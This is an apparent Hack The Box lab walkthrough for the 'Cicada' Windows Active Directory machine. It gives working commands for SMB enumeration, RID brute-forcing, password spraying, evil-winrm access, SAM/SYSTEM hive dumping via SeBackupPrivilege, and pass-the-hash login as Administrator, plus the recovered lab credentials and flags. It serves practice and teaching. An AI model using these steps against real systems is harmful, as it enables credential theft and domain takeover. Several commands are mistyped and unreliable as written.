

```table-of-contents
```

# Given

Cicada is an easy-difficult Windows machine that focuses on beginner Active Directory enumeration and exploitation. In this machine, players will enumerate the domain, identify users, navigate shares, uncover plaintext passwords stored in files, execute a password spray, and use the `SeBackupPrivilege` to achieve full system compromise.

## IP: 10.10.11.35

# Steps

## Initial Enumeration

- nmap -sCV -p- 10.10.11.35 -oN enum/nmap.out
- Enumerate SMB shares
    - Null session authentication is available, and HR share is available for listing and reading.
    - Downloaded text file that has a default password
- Time to test for users who might happen to still use this default password (Password Spray).
    - First, look for users of the SMB service. Enumerate smb for user SID's using the guest/anon logon with netexec. (Because we can’t use the guest account to directly list users)
        - `netexec smb 10.10.11.35 -u username -p '' --rid-brute`
    - The list of users and groups generated needs to be cleaned up. Filter for the users with `SidTypeUser` only.
    - Password spray the SMB service for both default usernames and people's names that are associated with this default password.
        - `netexec smb 10.10.11.35 -u ./payloads/users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'`
    - There will be one username `michael.wrightson` that uses the same default password.
- This only gets me access to the SMB service as Michael.Wrightson.
    - Test for shares this user has access to with netexec
        - `nxc smd 10.10.11.35 -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --shares`
        - This user has read access to the HR share, but nothing else.
    - Using this set of credentials, enumerate users of the share
        - `nxc smd 10.10.11.35 -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' —users`
        - This lists out the users of the SMB service, as well as bad password count, and descriptions.
        - The user account `david.orelious` has saved his password in the description `aRt$Lp#7t*VQ!3`
- Listing the shares available to this user shows he can read and write to the DEV share.
- Looking through this share gets us a powershell file called `Backup_Script.ps1`
    - This file is some code to encode a password for a user named `emily.oscars`
    - There is a plaintext password there (`Q!3@Lp#M6b*7t*Vt`)
- Enumerating shares for this user shows she has access to the `C$` share as well. This is where we can obtain an initial foothold

## Initial Foothold

- Use `evil-winrm` to make a connection to the system
    - `evil-winrm -i 10.10.11.35 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'`
    - The user flag is on the desktop

## Lateral Movement to Administrator Account

- The first thing to do when the initial foothold is established is to check for the rights and privilegs of this particular user account.
    - `whoami /all`
- This shows that the user has a privilege enabled called `SeBackupPrivilege` that allows the user to make backups of the system.
- This privilege can be used to backup the SAM and SYSTEM registries and crack them later.
    - Backup registries
        - `reg HKLM\\SAM sam`
        - `reg HKLM\\SYSTEM system`
    - Download them
        - `download sam sam`
- We’ll use the secretsdump module of Impacket to get the hashes from these 2 files.
    - `impacket-secretsdump -sam ./sam -system ./system LOCAL`
    - This gets us the `NTLM` hashes for the users of the system. A Pass The hash attack is viable now.
- Open another win-rm session where we login as the administrator.
    - `win-rm -i 10.10.11.35 -u Administrator -H '2b87e7c93a3e8a0ea4a581937016f341'`
    - We’ve successfully got into the machine as the admin.

# Findings

- Open TCP ports:
    - DNS
        - 53 Simple DNS
    - LDAP
        - 389, 636, 3268, 3269
    - HTTP
        - 5985
    - Kerberos
        - 88
    - MSRPC
        - 135, 593, 62664
    - Netbios
        - 139
    - SMB
        - 445, 139
    - UNKNOWN
        - 464
- Found password reset notice in SMB/HR
    - `Cicada$M6Corpb*@Lp#nZp!8`
- netexec password spray got user who's still using the default password
    - `michael.wrightson`
- Enumeration using the above creds gives a user with access to the DEV share
    - `david.orelious`
- DEV share has a file with creds for another user
    - `Backup_Scripts.ps1`
    - This has creds for user `emily.oscars`
- Emily Oscars has the `SeBackupPrivilege` flag enabled for their account.
    - We can backup her SAM and SYSTEM reg files for cracking later.

# Creds

Credentials found

`michael.wrightson`: `Cicada$M6Corpb*@Lp#nZp!8`

`david.orelious`:`aRt$Lp#7t*VQ!3`

`emily.oscars` : `Q!3@Lp#M6b*7t*Vt`

`Administartor` : `2b87e7c93a3e8a0ea4a581937016f341`

# Flags

- User: 51d5a869664f4522cc2d4ffcc9d939da
- Root: 00a9d8d15217db7909f52fc28127575b

# Proof


